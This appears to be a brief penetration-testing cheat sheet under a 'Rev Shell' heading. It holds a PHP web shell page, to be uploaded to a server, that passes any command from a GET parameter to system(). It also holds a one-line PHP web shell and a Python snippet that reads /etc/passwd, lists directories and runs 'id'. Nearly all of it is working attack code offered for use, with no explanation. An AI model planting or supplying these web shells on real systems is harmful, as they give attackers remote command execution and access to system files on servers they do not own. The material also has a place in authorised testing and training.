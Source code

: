 ## Rev Shell

#### PHP Rev shell

upload html file

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

php oneliner

```php
<?php system($_GET['cmd']) ?>
```


#### python 

```python3
f = open("/etc/passwd", "r")
print(f.read()) 
print(__import__("os").getcwd())
print(__import__("os").listdir('/'))
print(__import__("os").popen("id").read())
```
